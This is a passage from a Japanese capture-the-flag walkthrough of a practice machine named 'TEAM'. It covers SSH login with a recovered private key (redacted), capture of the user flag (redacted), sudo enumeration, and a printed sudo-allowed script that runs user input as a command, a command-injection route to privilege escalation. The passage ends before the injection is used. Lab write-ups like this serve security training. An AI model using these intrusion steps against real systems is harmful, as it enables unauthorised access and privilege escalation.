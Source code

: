
デコードし、下記の部分を id_rsa_dale として保存。  
各行の # は削除した。 
```text
#-----BEGIN OPENSSH PRIVATE KEY-----
..........................
#-----END OPENSSH PRIVATE KEY-----
```

```shell
$ ssh dale@10.10.62.228 -i ./id_rsa_dale
Last login: Mon Jan 18 10:51:32 2021
dale@TEAM:~$ 
```

daleで接続成功。

```shell
dale@TEAM:~$ cat user.txt
THM{..........}
```

ユーザーフラグゲット。

## 権限昇格１

sudo 
```shell
dale@TEAM:~$ sudo -l
Matching Defaults entries for dale on TEAM:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User dale may run the following commands on TEAM:
    (gyles) NOPASSWD: /home/gyles/admin_checks
```

gyles として /home/gyles/admin_checks を実行可能。

```shell
dale@TEAM:~$ ls -al /home/gyles/admin_checks
-rwxr--r-- 1 gyles editors 399 Jan 15  2021 /home/gyles/admin_checks

dale@TEAM:~$ cat /home/gyles/admin_checks
#!/bin/bash

printf "Reading stats.\n"
sleep 1
printf "Reading stats..\n"
sleep 1
read -p "Enter name of person backing up the data: " name
echo $name  >> /var/stats/stats.txt
read -p "Enter 'date' to timestamp the file: " error
printf "The Date is "
$error 2>/dev/null

date_save=$(date "+%F-%H-%M")
cp /var/stats/stats.txt /var/stats/stats-$date_save.bak

printf "Stats have been backed up\n"
```
